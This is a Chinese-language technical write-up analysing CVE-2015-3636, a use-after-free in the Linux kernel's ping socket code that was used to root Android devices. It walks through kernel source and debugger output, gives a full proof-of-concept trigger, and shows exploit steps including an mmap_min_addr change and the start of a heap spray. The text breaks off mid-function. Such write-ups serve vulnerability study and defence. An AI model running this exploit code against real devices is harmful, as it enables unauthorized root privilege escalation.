# cve-2015-3636

CVE-2015-3636是一个Android系统上可通用的root提权漏洞

复现的kernel版本：3.14，编译时将补丁去除了

## 漏洞概述

该漏洞属于Linux Kernel级别的use-after-free漏洞，存在于Linux内核的ping.c文件中。当用户态调用系统调用socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)，用返回的socket文件描述符作为参数调用系统调用connect()，并且connect的第二个参数中sa_family == AF_UNSPEC时，就会因为访问0x200200这个地址引起系统crash。如果攻击者巧妙地填充或者覆盖PING socket对象，就能达到获取root权限的目的。


## 漏洞原理



从补丁代码来看，主要在ping_unhash()里添加了sk_nulls_node_init函数，来制止uaf

```c
 // /include/net/sock.h
static inline void sk_nulls_node_init(struct hlist_nulls_node *node)
{
    node->pprev = NULL;
}
```

接着我们跟着poc来明白漏洞触发的原理 ,首先是

```c
 int sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
```

查看socket源码，明白它干了什么

socket函数，其中里面的sock_create和sock_map_fd是函数的核心，由此我们来分析,首先是sock_create函数，它的作用是创建一个socket

```c
SYSCALL_DEFINE3(socket, int, family, int, type, int, protocol)
{
	int retval;
	struct socket *sock;
	int flags;

  ...

	retval = sock_create(family, type, protocol, &sock);
	if (retval < 0)
		goto out;

	retval = sock_map_fd(sock, flags & (O_CLOEXEC | O_NONBLOCK));
	if (retval < 0)
		goto out_release;

out:
	/* It may be already another descriptor 8) Not kernel problem. */
	return retval;

out_release:
	sock_release(sock);
	return retval;
}
```

其中里面的sock_create，实际上调用的是__sock_create,在这个函数中，有许多是检验和参数配置，其中真正申请空间的是sock_alloc函数和pf->create(net, sock, protocol, kern); 前者alloc了一个socket 后者alloc了一个sock，并对它进行配置

```c
int __sock_create(struct net *net, int family, int type, int protocol,
			 struct socket **res, int kern)
{
	...
	if (family == PF_INET && type == SOCK_PACKET) {
		static int warned;
		if (!warned) {
			warned = 1;
			printk(KERN_INFO "%s uses obsolete (PF_INET,SOCK_PACKET)\n",
			       current->comm);
		}
		family = PF_PACKET;
	}

	err = security_socket_create(family, type, protocol, kern);
	if (err)
		return err;

	/*
	 *	Allocate the socket and allow the family to set things up. if
	 *	the protocol is 0, the family is instructed to select an appropriate
	 *	default.
	 */
	sock = sock_alloc();//创造socket
	if (!sock) {
		net_warn_ratelimited("socket: no more sockets\n");
		return -ENFILE;	/* Not exactly a match, but its the
				   closest posix thing */
	}

	sock->type = type;

#ifdef CONFIG_MODULES
	/* Attempt to load a protocol module if the find failed.
	 *
	 * 12/09/1996 Marcin: But! this makes REALLY only sense, if the user
	 * requested real, full-featured networking support upon configuration.
	 * Otherwise module support will break!
	 */
	if (rcu_access_pointer(net_families[family]) == NULL)
		request_module("net-pf-%d", family);
#endif

	rcu_read_lock();
	pf = rcu_dereference(net_families[family]);
	err = -EAFNOSUPPORT;
	if (!pf)
		goto out_release;

	/*
	 * We will call the ->create function, that possibly is in a loadable
	 * module, so we have to bump that loadable module refcnt first.
	 */
	if (!try_module_get(pf->owner))
		goto out_release;

	/* Now protected by module ref count */
	rcu_read_unlock();

	err = pf->create(net, sock, protocol, kern);//进入unix_create 创造sock 并初始化
	...
}空间
```

在sock_alloc里，很多是参数配置,其中真正alloc的是new_inode_pseudo函数

```c
static struct socket *sock_alloc(void)
{
	struct inode *inode;
	struct socket *sock;

	inode = new_inode_pseudo(sock_mnt->mnt_sb);
	if (!inode)
		return NULL;

	sock = SOCKET_I(inode);

	kmemcheck_annotate_bitfield(sock, type);
	inode->i_ino = get_next_ino();
	inode->i_mode = S_IFSOCK | S_IRWXUGO;
	inode->i_uid = current_fsuid();
	inode->i_gid = current_fsgid();
	inode->i_op = &sockfs_inode_ops;

	this_cpu_add(sockets_in_use, 1);
	return sock;

```

new_inode_pseudo一大部分是处理多进程的自旋锁，主要函数是alloc_inode函数

```c
static struct inode *alloc_inode(struct super_block *sb)
{
    struct inode *inode;

    // 如果文件系统的超级块已经指定了alloc_inode的函数，则调用已经定义的函数去分配inode
    // 对于sockfs，已经将alloc_inode指向sock_alloc_inode函数指针
    if (sb->s_op->alloc_inode)
        inode = sb->s_op->alloc_inode(sb);
    else
        // 否则在公用的 inode_cache slab缓存上分配inode
        inode = kmem_cache_alloc(inode_cachep, GFP_KERNEL);

    if (!inode)
        return NULL;

    // 编译优化，提高执行效率，inode_init_always正常返回0
    if (unlikely(inode_init_always(sb, inode))) {
        if (inode->i_sb->s_op->destroy_inode)
            inode->i_sb->s_op->destroy_inode(inode);
        else
            kmem_cache_free(inode_cachep, inode);
        return NULL;
    }

    return inode;
}
```

alloc_inode又调用了sock_alloc_inode,这才是真正的alloc的函数

```c
/** sock_alloc_inode (net/socket.c)*/
static struct inode *sock_alloc_inode(struct super_block *sb)
{
    // socket_alloc 结构体包含一个socket和一个inode，将两者联系到一起
    struct socket_alloc *ei;
    struct socket_wq *wq;

    // 在sock_inode_cachep缓存上分配一个socket_alloc
    // sock_inode_cachep: 前文"socket文件系统注册"中已经提到，专用于分配socket_alloc结构
    ei = kmem_cache_alloc(sock_inode_cachep, GFP_KERNEL);
    if (!ei)
        return NULL;
    // 分配socket等待队列结构
    wq = kmalloc(sizeof(*wq), GFP_KERNEL);
    if (!wq) {
        kmem_cache_free(sock_inode_cachep, ei);
        return NULL;
    }
    // 初始化等待队列
    init_waitqueue_head(&wq->wait);
    wq->fasync_list = NULL;
    wq->flags = 0;
    // 将socket_alloc中socket的等待队列指向wq
    RCU_INIT_POINTER(ei->socket.wq, wq);

    // 初始化socket的状态，标志，操作集等
    ei->socket.state = SS_UNCONNECTED;
    ei->socket.flags = 0;
    ei->socket.ops = NULL;
    ei->socket.sk = NULL;
    ei->socket.file = NULL;

    // 返回socket_alloc中的inode
    return &ei->vfs_inode;
}
```

主要malloc了一个socket_alloc的结构体，它是将socket和文件系统的inode结合在一起的

```c
/** socket_alloc 结构体 (net/sock.h)*/
struct socket_alloc {
    struct socket socket;
    struct inode vfs_inode;
};
```

之后返回了sock_alloc，对socket进行参数配置,至于如何根据inode得到socket呢？之前说过系统是malloc了一个socet_alloc结构体，减去对应偏移的地址就得到socket，根据调试果真如此，而主要调用的三socket_i这个宏

```c
/** SOCKET_I (net/sock.h)*/
static inline struct socket *SOCKET_I(struct inode *inode)
{
    // 使用container_of拿到inode对应的socket_alloc指针的首地址
    // 通过socket_alloc指针拿到inode对应的socket结构体指针
    return &container_of(inode, struct socket_alloc, vfs_inode)->socket;
}
/** container_of (linux/kernel.h)*/
#define container_of(ptr, type, member) ({          \
    // 定义一个与ptr相同的临时指针变量__mptr
    const typeof(((type *)0)->member) * __mptr = (ptr); \ 
    // 将__mptr的指针地址减去member在type中的偏移
    // 得到的就是type的首地址
    (type *)((char *)__mptr - offsetof(type, member)); })

```

sock_alloc分析完了，接着我们分析一下pf->create(net, sock, protocol, kern);，它主要调用unix_create函数

```c
static int unix_create(struct net *net, struct socket *sock, int protocol,
		       int kern)
{
	if (protocol && protocol != PF_UNIX)
		return -EPROTONOSUPPORT;

	sock->state = SS_UNCONNECTED;

	switch (sock->type) {
	case SOCK_STREAM:
		sock->ops = &unix_stream_ops;
		break;
		/*
		 *	Believe it or not BSD has AF_UNIX, SOCK_RAW though
		 *	nothing uses it.
		 */
	case SOCK_RAW:
		sock->type = SOCK_DGRAM;
	case SOCK_DGRAM:
		sock->ops = &unix_dgram_ops;
		break;
	case SOCK_SEQPACKET:
		sock->ops = &unix_seqpacket_ops;
		break;
	default:
		return -ESOCKTNOSUPPORT;
	}

	return unix_create1(net, sock) ? 0 : -ENOMEM;
}
```

unix_create函数主要是将对应的ops赋值，之后调用unix_create1，在unix_create1中重要的是sk_alloc和sock_init_data,sk_alloc主要是malloc了一个sock,技术细节就先不细究了，接着看一下sock_init_data

```c
static struct sock *unix_create1(struct net *net, struct socket *sock)
{
	struct sock *sk = NULL;
	struct unix_sock *u;

	atomic_long_inc(&unix_nr_socks);
	if (atomic_long_read(&unix_nr_socks) > 2 * get_max_files())
		goto out;

	sk = sk_alloc(net, PF_UNIX, GFP_KERNEL, &unix_proto);
	if (!sk)
		goto out;

	sock_init_data(sock, sk);
	
      ...
	return sk;
}
```

在sock_init_data中主要是针对刚malloc的sock用我们的socket进行赋值，其中atomic_set(&sk->sk_refcnt, 1);

使我们的引用次数变成1这里和我们后面的free息息相关

```c
void sock_init_data(struct socket *sock, struct sock *sk)
{
	...
	
	sk->sk_rcvlowat		=	1;
	sk->sk_rcvtimeo		=	MAX_SCHEDULE_TIMEOUT;
	sk->sk_sndtimeo		=	MAX_SCHEDULE_TIMEOUT;

	sk->sk_stamp = ktime_set(-1L, 0);

#ifdef CONFIG_NET_RX_BUSY_POLL
	sk->sk_napi_id		=	0;
	sk->sk_ll_usec		=	sysctl_net_busy_read;
#endif

	sk->sk_max_pacing_rate = ~0U;
	sk->sk_pacing_rate = ~0U;
	/*
	 * Before updating sk_refcnt, we must commit prior changes to memory
	 * (Documentation/RCU/rculist_nulls.txt for details)
	 */
	smp_wmb();
	atomic_set(&sk->sk_refcnt, 1);
	atomic_set(&sk->sk_drops, 0);
}
```

接着我们查看socket的另一个函数sock_map_fd，它的主要功能是将socket与文件联系起来，返回文件描述符,首先是get_unused_fd_flags得到一个没有使用过的的fd,接着sock_alloc_file将socket与file联系在一起

```c
/** sock_map_fd (net/socket.c)*/
static int sock_map_fd(struct socket *sock, int flags)
{
    struct file *newfile;
    // 从本进程的文件描述符表中获取一个可用的文件描述符
    int fd = get_unused_fd_flags(flags);
    if (unlikely(fd < 0))
        return fd;

    // 创建一个新的file，并将file和inode以及socket关联
    // file的private_data指针指向该socket
    newfile = sock_alloc_file(sock, flags, NULL);
    if (likely(!IS_ERR(newfile))) {
        // 将file指针存放到该进程已打开的文件列表中，其索引为fd
        fd_install(fd, newfile);
        return fd;
    }
    // 省略...
}x
    
```

许多都是环境配置，主要是file->private_data = sock; malloc了一个file后将创建的socket的地址放在provate_data这个指针上了

```c
	/** sock_alloc_file (net/socket.c)*/
struct file *sock_alloc_file(struct socket *sock, int flags, const char *dname)
{
    struct qstr name = { .name = "" };
    struct path path;
    struct file *file;

    // 省略..

    // 初始化文件路径path，其目录项的父目录项为超级块对应的根目录
    path.dentry = d_alloc_pseudo(sock_mnt->mnt_sb, &name);
    if (unlikely(!path.dentry))
        return ERR_PTR(-ENOMEM);
    // 设置path的装载点为sock_mnt
    path.mnt = mntget(sock_mnt);

    // 将socket对应的inode设置到path目录项dentry的d_inode中
    // SOCK_INODE 与 SOCKET_I 原理一致，这里用于获取sock在socket_alloc结构中对应的inode
    d_instantiate(path.dentry, SOCK_INODE(sock));

    // 分配file结构并初始化，file的f_path为path，file的f_inode为path->dentry的d_inode
    // 设置file的操作集为socket_file_ops
    file = alloc_file(&path, FMODE_READ | FMODE_WRITE,
          &socket_file_ops);
    // 省略..

    // 关联socket和新创建的file
    sock->file = file;
    file->f_flags = O_RDWR | (flags & O_NONBLOCK);
    file->private_data = sock;
    return file;
}
```

接着fd_install将创建的file与fd相链接

```c
/** __fd_install (fs/file.c)*/
void __fd_install(struct files_struct *files, unsigned int fd,
        struct file *file)
{
    struct fdtable *fdt;

    // 省略...

    // 从file_struct中通过RCU取出其中的fdt
    // fdt: 文件描述符表
    fdt = rcu_dereference_sched(files->fdt)
    BUG_ON(fdt->fd[fd] != NULL);
    // 将fd数组下标为fd的元素的指针指向file
    rcu_assign_pointer(fdt->fd[fd], file);
}
```

files_struct：该进程所有已打开文件表结构。进程描述符数组中存放了一个进程所访问的所有文件，把这个文件描述符数组和这个数组在系统中的一些动态信息组合到一起，就形成了一个新的数据结构——进程打开文件表。
__fd_install：将新创建的file指针存放在该进程已打开的文件列表中，索引为fd，这样进程就可以通过fd找到对应的file指针，inode和socket

由此我们明白了socket函数的作用，申请了一个socket_alloc和sock 创造了一个文件，使得file->privatedata= socket ,并使用一个没用过的fd,让fdt[fd]指向file

在poc中接着执行了这两个语句

```c
 sa.sin_family = AF_INET;
    connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
```

查看connect源码,在这其中比较关键的是sockfd_lookup_light根据我们的fd找到对应的socket, sock->ops->connect其实是inet_dgram_connect ，我们来逐一分析

```c
SYSCALL_DEFINE3(connect, int, fd, struct sockaddr __user *, uservaddr,
		int, addrlen)
{了
	struct socket *sock;
	struct sockaddr_storage address;
	int err, fput_needed;

	sock = sockfd_lookup_light(fd, &err, &fput_needed);
	if (!sock)
		goto out;
	err = move_addr_to_kernel(uservaddr, addrlen, &address);
	if (err < 0)
		goto out_put;

	err =
	    security_socket_connect(sock, (struct sockaddr *)&address, addrlen);
	if (err)
		goto out_put;

	err = sock->ops->connect(sock, (struct sockaddr *)&address, addrlen,
				 sock->file->f_flags);
out_put:
	fput_light(sock->file, fput_needed);
out:
	return err;
}
```

在sockfd_lookup_light中fdget()是通过fd 得到对应的file(fdt[fd]->file) 强制转换成fd 之后执行了sock_from_file得到socket

```c
static struct socket *sockfd_lookup_light(int fd, int *err, int *fput_needed)
{
	struct fd f = fdget(fd);
	struct socket *sock;

	*err = -EBADF;
	if (f.file) {
		sock = sock_from_file(f.file, err);
		if (likely(sock)) {
			*fput_needed = f.flags;
			return sock;
		}
		fdput(f);
	}
	return NULL;
}

```

sock_from_file从file->private_data中得到socket的地址，这与我们的socket()对应起来了

```c
struct socket *sock_from_file(struct file *file, int *err)
{
	if (file->f_op == &socket_file_ops)
		return file->private_data;	/* set in sock_map_fd */

	*err = -ENOTSOCK;
	return NULL;
}
```

接着来分析 sock->ops->connect，也就是inet_dgram_connect ,这个函数至关重要，后面的exp的很多代码都与这个密切相关

```c
int inet_dgram_connect(struct socket *sock, struct sockaddr *uaddr,
		       int addr_len, int flags)
{
	struct sock *sk = sock->sk;

	if (addr_len < sizeof(uaddr->sa_family))
		return -EINVAL;
	if (uaddr->sa_family == AF_UNSPEC)
		return sk->sk_prot->disconnect(sk, flags);

	if (!inet_sk(sk)->inet_num && inet_autobind(sk))
		return -EAGAIN;
	return sk->sk_prot->connect(sk, uaddr, addr_len);
}
```

因为我们的sa是AF_INET，因而在这个函数中我们执行了inet_autobind,sk->sk_prot->connect,因为我们socket的类型，所以是ip4_datagram_connect(调试可得)，其中这个connect函数与漏洞点关系不大，就不说了，着重说一下inet_autobind

inet_autobind中调用了sk->sk_prot->get_port 这个函数经过调试发现是ping_get_port

```c
static int inet_autobind(struct sock *sk)
{
	struct inet_sock *inet;
	/* We may need to bind the socket. */
	lock_sock(sk);
	inet = inet_sk(sk);
	if (!inet->inet_num) {
		if (sk->sk_prot->get_port(sk, 0)) {
			release_sock(sk);
			return -EAGAIN;
		}
		inet->inet_sport = htons(inet->inet_num);
	}
	release_sock(sk);
	return 0;
}
```

奇怪的是为看linux源码3.10没有ping_get_port，可是调试的时候却有，难道是android模改了吗,可以看到在这个函数中hlist_nulls_node，hlist_nulls_head 可以看到hlist_nulls_add_head(&sk->sk_nulls_node, hlist);  因此就在这里对于我们的sk添加了hlist 这个就是简单的链表添加 就不写了 

```c
int ping_get_port(struct sock *sk, unsigned short ident)
{
	struct hlist_nulls_node *node;
	struct hlist_nulls_head *hlist;
	struct inet_sock *isk, *isk2;
	struct sock *sk2 = NULL;

	isk = inet_sk(sk);
	write_lock_bh(&ping_table.lock);
	if (ident == 0) {
		u32 i;
		u16 result = ping_port_rover + 1;

		for (i = 0; i < (1L << 16); i++, result++) {
			if (!result)
				result++; /* avoid zero */
			hlist = ping_hashslot(&ping_table, sock_net(sk),
					    result);
			ping_portaddr_for_each_entry(sk2, node, hlist) {
				isk2 = inet_sk(sk2);

				if (isk2->inet_num == result)
					goto next_port;
			}

			/* found */
			ping_port_rover = ident = result;
			break;
next_port:
			;
		}
		if (i >= (1L << 16))
			goto fail;
	} else {
		hlist = ping_hashslot(&ping_table, sock_net(sk), ident);
		ping_portaddr_for_each_entry(sk2, node, hlist) {
			isk2 = inet_sk(sk2);

			/* BUG? Why is this reuse and not reuseaddr? ping.c
			 * doesn't turn off SO_REUSEADDR, and it doesn't expect
			 * that other ping processes can steal its packets.
			 */
			if ((isk2->inet_num == ident) &&
			    (sk2 != sk) &&
			    (!sk2->sk_reuse || !sk->sk_reuse))
				goto fail;
		}
	}

	pr_debug("found port/ident = %d\n", ident);
	isk->inet_num = ident;
	if (sk_unhashed(sk)) {
		pr_debug("was not hashed\n");
		sock_hold(sk);
		hlist_nulls_add_head(&sk->sk_nulls_node, hlist);
		sock_prot_inuse_add(sock_net(sk), sk->sk_prot, 1);
	}
	write_unlock_bh(&ping_table.lock);
	return 0;

fail:
	write_unlock_bh(&ping_table.lock);
	return 1;
}

```

&sk->sk_nulls_node 和&sk->sk_node

```c
#define sk_node			__sk_common.skc_node
#define sk_nulls_node		__sk_common.skc_nulls_node
//两者都在socket的sk_common里 是个联合
union {
		struct hlist_node	skc_node;
		struct hlist_nulls_node skc_nulls_node;
	};
```


里面的sock_hold时我们的引用次数 加一,这里很重要 与free的一个检测相关 后续会再提的

```c
static inline void sock_hold(struct sock *sk)
{
	atomic_inc(&sk->sk_refcnt);
}
```

最后分析poc的最后一个部分

```c
sa.sin_family = AF_UNSPEC;
connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
```

connect前面的过程与上面一样，关键是在inet_dgram_connect由于AF_unspec的关系,会执行 sk->sk_prot->disconnect(sk, flags);也就是udp_disconnect

net/ipv4/udp.c

```c
int udp_disconnect(struct sock *sk, int flags)
{
    struct inet_sock *inet = inet_sk(sk);

    sk->sk_state = TCP_CLOSE;
    ...
    if (!(sk->sk_userlocks & SOCK_BINDPORT_LOCK)) {
        sk->sk_prot->unhash(sk);
        inet->inet_sport = 0;
    }
    sk_dst_reset(sk);
    return 0;
}
```

在socket对象不绑定端口的情况下，会执行sk->sk_prot_unhash(sk);而sk->sk_prot_unhash(sk)最终会执行ping_unhash(struct sock *sk),而在ping_unhash中sk_hashed和hlist_nulls_del是导致程序的关键

net/ipv4/ping.c

```c
void ping_unhash(struct sock *sk)
{
    struct inet_sock *isk = inet_sk(sk);
    pr_debug("ping_unhash(isk=%p,isk->num=%u)\n", isk, isk->inet_num);
    if (sk_hashed(sk)) {
        write_lock_bh(&ping_table.lock);
        hlist_nulls_del(&sk->sk_nulls_node);

      //  sk_nulls_node_init(&sk->sk_nulls_node);
        sock_put(sk);
        isk->inet_num = 0;
        isk->inet_sport = 0;
        sock_prot_inuse_add(sock_net(sk), sk->sk_prot, -1);
        write_unlock_bh(&ping_table.lock);
    }
}
```

sk_hashed(sk)

```c
static inline int sk_unhashed(const struct sock *sk)
{
         return hlist_unhashed(&sk->sk_node);
}
 
static inline int sk_hashed(const struct sock *sk)
{
         return !sk_unhashed(sk);
}
 
static inline int hlist_unhashed(const struct hlist_node *h)
{
         return !h->pprev;
}
```

得益于我们前一次的connect执行了ping_get_port，因而h->pprev存在，假设我们没执行前一个connect



x0存的是我们的sock 0xffffffc020512c00 +0x38 是pprev,cbz等于0就跳转,之后就ret了



而当我们执行了前一个connect时



接着往下走执行了 hlist_nulls_del(&sk->sk_nulls_node);说白了就是将prev指向的值变成next,同时prev在sock中变成 LIST_POISON2;

```c

define sk_node            __sk_common.skc_node
#define sk_nulls_node      __sk_common.skc_nulls_node
 
    union {
        struct hlist_node  skc_node;
        struct hlist_nulls_node skc_nulls_node;
    };
 
struct hlist_node {
    struct hlist_node *next, **pprev;
};
 
struct hlist_nulls_node {
    struct hlist_nulls_node *next, **pprev;
};

static inline void __hlist_nulls_del(struct hlist_nulls_node *n)
{
         struct hlist_nulls_node *next = n->next;
         struct hlist_nulls_node **pprev = n->pprev;
         *pprev = next;
         if (!is_a_nulls(next))
                   next->pprev = pprev;
}
 
static inline void hlist_nulls_del(struct hlist_nulls_node *n)
{
         __hlist_nulls_del(n);
         n->pprev = LIST_POISON2;
}
```

对应于汇编就是x19是sock的地址 +0x38是pprev, +0x30是next





之后执行n->pprev = LIST_POISON2; x0是0x1360就是LIST_POISON2 x19是sock +0x38是pprev




pprev变成0x1360了

当第二次执行connect(sock, (const struct sockaddr *) &sa, sizeof(sa));时

遇到sk_hashed时由于pprev是0x1360不为0.顺利通过检测，而当后续执行hlist_nulls_del时(就是上面那段汇编时）

将0x3赋值到0x1360，因而导致程序崩溃

完整poc:

```c
#include <unistd.h>
#include <sys/socket.h>
#include <errno.h>
#include <linux/netlink.h>
#include <linux/if.h>
#include <linux/filter.h>
#include <linux/if_pppox.h>
#include <linux/sock_diag.h>
#include <linux/inet_diag.h>
#include <linux/unix_diag.h>
#include <string.h>
#include <sys/mman.h>
#include <stdio.h>
#include <stdlib.h>
#include <jni.h>
#define MMAP_BASE 0x200000
#define LIST_POISON 0x200200
#define MMAP_SIZE 0x200000
int checkIsVulnerable()
{
    void * magic = mmap((void *) MMAP_BASE, MMAP_SIZE,
       PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED | MAP_ANONYMOUS,
       -1, 0);//向0x20000到0x40000这个虚拟内存地址映射，并且将这个地址段中所有值设为0
    memset(magic, 0, MMAP_SIZE);
    *((long *)(LIST_POISON)) = 0xfefefefe;//给0x200200这个虚拟内存地址中赋值为0xfefefefe；
    int sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
    struct sockaddr_in sa;
    memset(&sa, 0, sizeof(sa));
    sa.sin_family = AF_INET;
    connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
//  第一次用AF_INET sin_family来connect是为了让sk（sock 对象）在内核中hashed
    sa.sin_family = AF_UNSPEC;
     connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
     /*每次用AF_UNSPEC调用connect会触发inet_dgram_connect（）中的sk->sk_prot->disconnect（）逻辑
    其中disconnect的具体实现是根据协议类型而定的，PING（ICMP）socket的具体实现disconnect（）是
    udp_disconnect（）未绑定端口的情况下会触发sk->sk_prot->unhash(sk)逻辑*/
    connect(sock, (const struct sockaddr *) &sa, sizeof(sa));//如果漏洞存在，第二次调用就会触发这个漏洞
    if (*((long *)(LIST_POISON)) != 0xfefefefe){
       printf("Device is vulnerable\n");
       return 1;
    }else{
      printf("Device is not vulnerable\n");
      return 0;
    }
}
```


## 漏洞利用

这是个uaf洞，漏洞 代码主要在ping_unhash()的sock_put()

```c
static inline void sock_put(struct sock *sk)
{
    if (atomic_dec_and_test(&sk->sk_refcnt))
        sk_free(sk);
}
```

sock_put将sk->sk_refcnt-1，判断该值是否为0，注意到这里，之前说的sk->sk_refcnt派上用长了,如果是0就free掉sk,如果我们在用户态提前mmap了0x1360崩溃，而是进入sock_put,sk被free,接着通过讲解exp的方式来了解漏洞是怎么触发的

首先是

```c
struct sockaddr addr1 = { .sa_family = AF_INET 	 };
struct sockaddr addr2 = { .sa_family = AF_UNSPEC };
for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		vultrig_socks[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
		if(-1 == vultrig_socks[i])
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr1, sizeof(addr1));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}
	}

```

这里和poc一样,socket函数malloc了sock和socket并将sock的sk_refcnt置为1，而connect函数根据socket的fd在fdt[fd]找到对应的file，提取file->privatedata的socket,将这个socket的sock的hlist置数也就是+0x30,0x38的地方，并将sk_refcnt++

```c

	system("echo 4096 > /proc/sys/vm/mmap_min_addr");
	void* user_mm = mmap(PAGE_SIZE, MAX_NULLMAP_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
```

提前mmap了，防止程序像poc一样，由于在0x1360的地方赋值导致崩溃

```c
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] connect vultrig socket fail");
			exit(-1);
		}
	}
```

这里的过程和poc差不多，第一次connect将pprev也就是+0x38的地方变成0x1360,同时sk_refcnt(+0x44)减一



第二次由于我们提前mmap了，程序不会崩溃，之后sk_refcnt减一，变成0，执行sk_free(),



0xffffffc00035ea84是sk_free(),由此uaf产生，之后就是利用了，首先利用堆喷

```c
int spray_nofork(unsigned int size)
{

  void*       mapped;
  void*       mapped_page;
